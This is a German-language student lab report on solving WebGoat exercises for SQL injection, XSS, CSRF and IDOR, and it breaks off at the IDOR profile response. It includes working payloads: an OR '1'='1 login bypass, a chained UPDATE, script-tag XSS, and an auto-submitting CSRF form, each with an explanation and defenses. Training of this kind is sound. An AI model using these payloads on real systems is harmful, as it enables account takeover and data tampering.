## KN02

## A – WebGoat starten

Für diese Aufgabe wurde WebGoat auf meiner EC2-Instanz gestartet. WebGoat läuft im Docker-Container und ist über Port `8080` erreichbar.

### Schritt 1 – Port 8080 freigeben

Zuerst wurde in AWS die bestehende Security Group `m183-sg` geöffnet. Dafür wurde unter **Inbound rules** eine neue Regel für Port `8080` hinzugefügt.

Die Regel wurde so gesetzt:

```text
Type: Custom TCP
Protocol: TCP
Port range: 8080
Source: My IP
```

Der Port wurde nur für **My IP** freigegeben und nicht für `0.0.0.0/0`, damit WebGoat nicht öffentlich für alle erreichbar ist.



### Schritt 2 – WebGoat mit Docker starten

Danach wurde eine SSH-Verbindung zur EC2-Instanz aufgebaut. Anschliessend wurde WebGoat mit Docker gestartet:

```bash
docker run -d --name webgoat -p 8080:8080 webgoat/webgoat
```

Falls der Container bereits existiert, erscheint eine Meldung, dass der Name `webgoat` schon verwendet wird. In diesem Fall muss der bestehende Container nicht neu erstellt werden, sondern kann direkt gestartet werden:

```bash
docker start webgoat
```

Danach wurde überprüft, ob der Container läuft:

```bash
docker ps
```

### Schritt 3 – WebGoat im Browser öffnen

Nachdem der Container gestartet wurde, wurde WebGoat im Browser geöffnet:

```text
http://ec2-54-221-169-173.compute-1.amazonaws.com:8080/WebGoat
```

Auf der WebGoat-Startseite wurde danach ein neuer Benutzer erstellt. Die Zugangsdaten wurden notiert, da sie für die weiteren Aufgaben benötigt werden.



Damit war WebGoat erfolgreich gestartet und bereit für die weiteren Aufgaben.


## B – SQL Injection in WebGoat

In diesem Teil wurde SQL Injection in WebGoat getestet. Dabei wurde gezeigt, dass unsichere SQL-Abfragen durch Benutzereingaben manipuliert werden können. Das ist gefährlich, weil ein Angreifer dadurch Authentifizierungen umgehen, fremde Daten lesen oder sogar Daten in der Datenbank verändern kann.

### B1 – Login Bypass

Bei B1 wurde ein Login-Bypass mit SQL Injection durchgeführt. Ziel war es, sich einzuloggen bzw. Daten abzurufen, ohne das korrekte Passwort oder die korrekte TAN zu kennen.

Im Formular wurde im ersten Feld ein Name eingegeben:

```text
Smith
```

Im zweiten Feld wurde folgender Payload verwendet:

```sql
' OR '1'='1
```

Danach wurde das Formular abgeschickt. WebGoat zeigte eine grüne Erfolgsmeldung. Dadurch wurde bestätigt, dass die Abfrage manipuliert wurde.



#### Was passiert im Hintergrund?

Die Anwendung baut eine SQL-Abfrage aus den Benutzereingaben zusammen. Normalerweise sieht die Abfrage ungefähr so aus:

```sql
SELECT * FROM users
WHERE name = 'Smith'
AND password = 'eingabe';
```

Wenn das Passwort falsch ist, gibt die Datenbank keinen passenden Benutzer zurück.

Durch den Payload wird die Abfrage aber verändert:

```sql
SELECT * FROM users
WHERE name = 'Smith'
AND password = ''
OR '1'='1';
```

Der Teil

```sql
OR '1'='1'
```

ist immer wahr. Die Datenbank bekommt dadurch eine Bedingung, die unabhängig vom Passwort stimmt. Deshalb liefert die Abfrage trotzdem ein Ergebnis zurück. Die Applikation interpretiert das als erfolgreichen Login oder als gültige Anfrage.

#### Gefahr

Die Gefahr liegt darin, dass ein Angreifer die Login-Logik umgehen kann. Er braucht dann kein korrektes Passwort oder keine korrekte TAN. Wenn eine Anwendung so gebaut ist, kann ein Angreifer auf fremde Konten oder geschützte Daten zugreifen.

---

### B2 – Query Chaining: Integrität kompromittieren

Bei B2 wurde Query Chaining verwendet. Dabei wird mit einem Semikolon `;` eine SQL-Anweisung beendet und direkt danach eine zweite SQL-Anweisung eingeschleust.

Der verwendete Payload war:

```sql
3SL99A'; UPDATE employees SET salary = 999999 WHERE last_name = 'Smith'; --
```

Der erste Teil enthält die gültige TAN:

```text
3SL99A
```

Danach beendet das Semikolon die ursprüngliche SQL-Abfrage. Anschliessend wird mit `UPDATE` der Lohn von John Smith verändert. Das `--` am Ende kommentiert den restlichen SQL-Code aus.



#### Was passiert im Hintergrund?

Die ursprüngliche Abfrage sieht ungefähr so aus:

```sql
SELECT * FROM employees
WHERE last_name = 'Smith'
AND auth_tan = '3SL99A';
```

Durch den Payload wird daraus:

```sql
SELECT * FROM employees
WHERE last_name = 'Smith'
AND auth_tan = '3SL99A';

UPDATE employees
SET salary = 999999
WHERE last_name = 'Smith';
```

Dadurch wird nicht nur die ursprüngliche Abfrage ausgeführt, sondern zusätzlich eine zweite SQL-Anweisung. In diesem Fall wurde der Lohn von John Smith auf `999999` geändert.

#### Bewirkte Veränderung

Mit dem Payload wurde der Wert `salary` von John Smith in der Tabelle `employees` verändert. Dadurch wurde die Integrität der Datenbank verletzt, weil ein normaler Benutzer Daten ändern konnte, die er eigentlich nicht ändern darf.

#### Gefahr

Die Gefahr bei Query Chaining ist grösser als bei einem einfachen Login Bypass. Ein Angreifer kann nicht nur Daten lesen, sondern auch Daten verändern oder löschen. Zum Beispiel könnte er Löhne ändern, neue Benutzer erstellen oder wichtige Datensätze manipulieren.

---

## Schriftliche Antworten

### 1. SQL-Statement aus B1 vor und nach dem Payload

Vor dem Payload:

```sql
SELECT * FROM users
WHERE name = 'Smith'
AND password = 'eingabe';
```

Nach dem Payload:

```sql
SELECT * FROM users
WHERE name = 'Smith'
AND password = ''
OR '1'='1';
```

Die Authentifizierung wird umgangen, weil `OR '1'='1'` immer wahr ist. Dadurch kann die Datenbank trotzdem einen Treffer zurückgeben, obwohl das Passwort oder die TAN nicht korrekt ist.

### 2. Wie funktionieren Prepared Statements technisch?

Prepared Statements trennen den SQL-Befehl von den Benutzereingaben. Die SQL-Struktur wird zuerst fest vorbereitet, zum Beispiel:

```sql
SELECT * FROM users
WHERE name = ?
AND password = ?;
```

Die Werte des Benutzers werden danach nur als Parameter eingesetzt. Dadurch behandelt die Datenbank die Eingabe nicht mehr als SQL-Code, sondern nur als normalen Text.

Wenn ein Angreifer dann zum Beispiel `' OR '1'='1` eingibt, wird dieser Wert nicht als SQL-Befehl ausgeführt. Er wird nur als Passwort-Text verglichen. Deshalb funktioniert SQL Injection bei korrekt verwendeten Prepared Statements nicht mehr.

### 3. Welche OWASP Top 10 Kategorie beschreibt SQL Injection?

SQL Injection gehört zur OWASP Top 10:2025 Kategorie:

```text
A05:2025 – Injection
```

Diese Kategorie beschreibt Angriffe, bei denen nicht vertrauenswürdige Eingaben als Teil eines Befehls oder einer Abfrage interpretiert werden.

### 4. Zwei weitere Injection-Varianten

Eine weitere Variante ist **OS Command Injection**. Dabei werden Betriebssystembefehle eingeschleust. Zum Beispiel könnte ein Angreifer versuchen, über ein Eingabefeld Befehle wie `ls`, `cat`, `whoami` oder gefährlichere Kommandos auf dem Server auszuführen. Die Gefahr ist, dass der Angreifer Zugriff auf Dateien, Prozesse oder das ganze System erhalten kann.

Eine zweite Variante ist **LDAP Injection**. Dabei werden LDAP-Abfragen manipuliert, zum Beispiel bei Login- oder Benutzerverzeichnis-Abfragen. Ein Angreifer könnte versuchen, Suchfilter zu verändern und dadurch fremde Benutzerinformationen auszulesen oder eine Authentifizierung zu umgehen.


## C – Cross Site Scripting in WebGoat

In diesem Teil wurden verschiedene XSS-Arten in WebGoat getestet. Es wurde Reflected XSS, DOM-based XSS und Stored XSS behandelt. XSS ist gefährlich, weil ein Angreifer JavaScript-Code in eine Webseite einschleusen kann. Dieser Code wird dann im Browser eines Benutzers ausgeführt.

---

## C1a – Try It! Reflected XSS

Bei der Aufgabe **Try It! Reflected XSS** wurde getestet, welches Eingabefeld anfällig für Reflected XSS ist. Dafür wurde zuerst ein normaler Wert in das Kreditkartenfeld eingegeben. Danach wurde ein JavaScript-Payload eingefügt.

Verwendeter Payload:

```html
<script>alert('Reflected XSS')</script>
```

Der Payload wurde im Feld für die Kreditkartennummer eingegeben. Der Access Code blieb auf:

```text
111
```

Nach dem Klick auf **Purchase** wurde ein Alert mit dem Text `Reflected XSS` ausgelöst. Dadurch wurde bestätigt, dass die Eingabe ungefiltert in der Antwort verarbeitet und vom Browser als JavaScript ausgeführt wurde.

In den DevTools wurde zusätzlich im Network-Tab die Anfrage `attack5a` geprüft. Dort war der Payload im Parameter `field1` sichtbar:

```text
field1: <script>alert('Reflected XSS')</script>
```



Die Gefahr bei Reflected XSS ist, dass ein Angreifer einem Opfer einen manipulierten Link oder eine manipulierte Anfrage schicken kann. Wenn das Opfer diese Anfrage öffnet, wird der JavaScript-Code im Browser des Opfers ausgeführt.

---

## C1b – DOM-based XSS

Bei DOM-based XSS entsteht die Schwachstelle direkt im Browser. Der Server muss den Payload nicht direkt in der HTTP-Antwort zurückgeben. Stattdessen liest JavaScript einen Wert aus der URL oder aus dem Browser-Kontext und schreibt ihn ungefiltert in die Webseite.

Typisch gefährlich sind zum Beispiel solche Konstrukte:

```js
document.getElementById('output').innerHTML = location.hash.slice(1);
```

oder:

```js
document.write(decodeURIComponent(location.search));
```

Diese Konstrukte sind gefährlich, weil Werte aus der URL direkt in den DOM geschrieben werden. Wenn ein Angreifer dort HTML oder JavaScript einschleust, kann der Browser diesen Code ausführen.

Das verwundbare Konstrukt ist also vor allem die Kombination aus:

```text
location.hash / location.search
```

und

```text
innerHTML / document.write
```

Der Unterschied zu Reflected XSS ist, dass DOM-based XSS vollständig im Browser entsteht. Der Payload muss nicht im Server-Response sichtbar sein. Deshalb ist DOM-based XSS für serverseitige Filter schwieriger zu erkennen.

---

## C2 – Stored XSS

Bei Stored XSS wird der Payload dauerhaft gespeichert, zum Beispiel in einem Kommentar. Sobald die Seite später wieder geladen wird, wird der gespeicherte Code erneut ausgeführt. Dadurch betrifft der Angriff nicht nur den Angreifer selbst, sondern auch andere Benutzer, die diese Seite öffnen.

In WebGoat wurde ein Kommentar mit folgendem Payload gespeichert:

```html
<script>webgoat.customjs.phoneHome()</script>
```

Nach dem Speichern wurde der Kommentar geladen und der JavaScript-Code ausgeführt. In der Browser-Konsole erschien danach eine Ausgabe mit `phoneHome Response is ...`.

Der aktuelle Wert war:

```text
-1532401796
```



Dieser Wert wurde anschliessend in WebGoat eingetragen. Danach wurde die Aufgabe erfolgreich abgeschlossen und WebGoat zeigte eine grüne Bestätigung.



---

## Schriftliche Antworten

### Was ist der zentrale Unterschied zwischen Reflected XSS und Stored XSS?

Der zentrale Unterschied ist die Speicherung. Bei Reflected XSS wird der Payload nicht gespeichert. Er wird nur ausgeführt, wenn ein Benutzer eine manipulierte Anfrage oder einen manipulierten Link öffnet. Bei Stored XSS wird der Payload dauerhaft gespeichert, zum Beispiel in einem Kommentar. Dadurch wird er bei jedem Laden der Seite erneut ausgeführt und kann auch andere Benutzer treffen.

### Was unterscheidet DOM-based XSS von Reflected XSS?

Bei Reflected XSS kommt der Payload vom Server zurück in die HTTP-Antwort. Man kann ihn deshalb oft im Network-Tab im Response sehen. Bei DOM-based XSS passiert die Verarbeitung im Browser. JavaScript liest zum Beispiel Werte aus `location.hash` oder `location.search` und schreibt sie ungefiltert mit `innerHTML` oder `document.write()` in die Seite. Der Server sieht diesen Payload oft gar nicht direkt, deshalb ist DOM-based XSS für serverseitige Filter schwieriger zu erkennen.

### Was bedeutet Output Encoding und warum schützt es gegen XSS?

Output Encoding bedeutet, dass gefährliche Zeichen vor der Ausgabe entschärft werden. Der Browser interpretiert sie dann nicht mehr als HTML oder JavaScript, sondern nur noch als normalen Text.

Beispiel:

```html
<script>alert('XSS')</script>
```

wird nach dem Encoding zu:

```html
&lt;script&gt;alert('XSS')&lt;/script&gt;
```

Dadurch wird der Code nicht ausgeführt, sondern nur als Text angezeigt.

### Was ist Content-Security-Policy und wie schränkt sie XSS ein?

Content-Security-Policy, kurz CSP, ist ein HTTP-Header. Mit diesem Header kann eine Webseite festlegen, welche Skripte, Bilder oder andere Ressourcen geladen und ausgeführt werden dürfen. Eine strenge CSP kann zum Beispiel Inline-JavaScript blockieren. Dadurch würde ein eingeschleuster Payload wie `<script>alert('XSS')</script>` nicht mehr ausgeführt werden. CSP ist aber nur eine zusätzliche Schutzmassnahme und ersetzt nicht korrektes Output Encoding.

### Welche OWASP Top 10 Kategorie beschreibt XSS?

In der OWASP Top 10:2021 gehört XSS zur Kategorie:

```text
A03:2021 – Injection
```

Cross-Site Scripting ist eine Form von Injection, weil ein Angreifer schädlichen JavaScript-Code in eine Webseite einschleust.


## D – CSRF – Cross-Site Request Forgery

In dieser Aufgabe wurde ein CSRF-Angriff in WebGoat durchgeführt. Ziel war es, eine Aktion in WebGoat nicht direkt über die WebGoat-Oberfläche auszuführen, sondern über eine externe HTML-Datei.

Bei CSRF wird der Browser eines eingeloggten Benutzers dazu gebracht, im Hintergrund eine Anfrage an eine Webseite zu senden. Weil der Benutzer bereits eingeloggt ist, schickt der Browser den Session-Cookie automatisch mit. Die Ziel-Webseite erkennt dadurch eine gültige Sitzung und führt die Aktion aus.

---

## Schritt 1 – Anfrage analysieren

In WebGoat wurde die Lektion **Cross-Site Request Forgeries** geöffnet. Die verwendete Aufgabe war:

```text id="5c3vm8"
Basic Get CSRF Exercise
```

Beim normalen Auslösen der Aufgabe aus WebGoat heraus wurde zuerst geprüft, welche Anfrage benötigt wird. Dabei wurde ersichtlich, dass folgender Endpunkt verwendet wird:

```text id="ug46zy"
http://13.220.232.53:8080/WebGoat/csrf/basic-get-flag
```

Die Anfrage musste als POST-Request gesendet werden. Beim Versuch mit GET zeigte WebGoat einen Fehler, weil GET für diesen Endpunkt nicht unterstützt wurde.

Analysierte Anfrage:

```text id="raqqsx"
URL: http://13.220.232.53:8080/WebGoat/csrf/basic-get-flag
Methode: POST
Parameter: keine sichtbaren Form-Parameter notwendig
```

---

## Schritt 2 – CSRF-Seite erstellen

Auf dem lokalen Rechner wurde eine Datei mit dem Namen `csrf-attack.html` erstellt. Diese Datei enthält ein HTML-Formular, das automatisch an WebGoat gesendet wird.

Inhalt der Datei:

```html id="x4o69u"
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
</head>
<body>
  <h1>Herzlichen Glückwunsch! Sie haben gewonnen!</h1>

  <form id="csrfForm" action="http://13.220.232.53:8080/WebGoat/csrf/basic-get-flag" method="POST">
  </form>

  <script>
    document.getElementById("csrfForm").submit();
  </script>
</body>
</html>
```

Das Formular wird durch JavaScript automatisch abgeschickt. Dadurch muss der Benutzer nicht bewusst auf einen Button klicken. Genau das ist der CSRF-Angriff.

---

## Schritt 3 – Angriff ausführen

WebGoat blieb im Browser geöffnet und der Benutzer war weiterhin eingeloggt. Danach wurde die lokale Datei `csrf-attack.html` geöffnet.

Die Datei wurde lokal über den Browser gestartet:

```text id="inm4sj"
file:///Users/leartmena/Documents/183m_LeartMena/KN02/csrf-attack.html
```

Dadurch wurde im Hintergrund eine POST-Anfrage an WebGoat gesendet. WebGoat erkannte, dass die Anfrage von einem separaten Host kam und gab ein Flag zurück.

Antwort von WebGoat:

```json id="cabdg1"
{
  "flag": 36275,
  "success": true,
  "message": "Congratulations! Appears you made the request from a separate host."
}
```



Das Flag war:

```text id="qa53ll"
36275
```

Dieses Flag wurde anschliessend in WebGoat bei **Confirm Flag Value** eingetragen und mit **Submit** bestätigt. Danach wurde die Aufgabe erfolgreich abgeschlossen.



---

## Schriftliche Antworten

### Warum schickt der Browser den Session-Cookie mit, wenn die Anfrage von `csrf-attack.html` kommt?

Der Browser speichert den Session-Cookie für die WebGoat-Domain. Wenn eine Anfrage an diese Domain gesendet wird, hängt der Browser den passenden Cookie automatisch an die Anfrage an. Dabei ist es egal, ob die Anfrage direkt aus WebGoat kommt oder durch eine lokale HTML-Datei ausgelöst wurde.

Genau das missbraucht CSRF. Die fremde Seite kennt den Cookie nicht, aber sie muss ihn auch nicht kennen. Der Browser sendet ihn automatisch mit.

---

### Was ist ein CSRF-Token und warum kann eine Angreifer-Seite ihn nicht einfach aus dem Formular lesen?

Ein CSRF-Token ist ein zufälliger, geheimer Wert, den der Server in ein legitimes Formular einbaut. Wenn das Formular abgeschickt wird, prüft der Server, ob dieser Token vorhanden und korrekt ist.

Eine Angreifer-Seite kann diesen Token normalerweise nicht auslesen, weil er im HTML der legitimen Webseite steht. Wegen der Same-Origin-Policy darf eine fremde Seite den Inhalt von WebGoat nicht einfach lesen. Deshalb kann sie zwar eine Anfrage auslösen, aber keinen gültigen CSRF-Token mitsenden.

---

### Was bewirkt das `SameSite=Strict`-Flag bei einem Cookie und wie schützt es vor CSRF?

`SameSite=Strict` sorgt dafür, dass ein Cookie nur bei Anfragen von derselben Webseite mitgeschickt wird. Wenn eine fremde Webseite oder eine lokale Datei eine Anfrage an WebGoat auslöst, würde der Browser den Cookie nicht mitsenden.

Dadurch kann der Server die Anfrage nicht mehr als eingeloggten Benutzer erkennen. Das schützt vor CSRF, weil der Angriff genau davon lebt, dass der Session-Cookie automatisch mitgesendet wird.

---

### Welche OWASP Top 10 Kategorie 2025 beschreibt CSRF am ehesten?

CSRF gehört in der OWASP Top 10:2025 am ehesten zu:

```text id="wmk7ta"
A01:2025 – Broken Access Control
```

CSRF ist eine Zugriffskontroll-Schwachstelle, weil eine fremde Seite eine Aktion im Namen eines eingeloggten Benutzers auslösen kann, ohne dass dieser die Aktion bewusst autorisiert.


# E – Broken Access Control – IDOR

## Schritt 1 – Authentifizierung

Für die IDOR-Aufgabe wurde zuerst der von WebGoat vorgegebene Benutzer angemeldet.

```text
Benutzer: tom
Passwort: cat
```

Damit war der Benutzer authentifiziert. Der Angriff beginnt erst danach: Es wird geprüft, ob ein eingeloggter Benutzer auf fremde Profile zugreifen kann, obwohl er dafür keine Berechtigung hat.

## Schritt 2 – Profil-Response analysieren

Nach dem Login wurde das Profil von `Tom Cat` geöffnet. Im Network-Tab wurde die Profil-Anfrage geprüft:

```text id="4cdsyp"
GET /WebGoat/IDOR/profile
```

Im Server-Response standen folgende Daten:

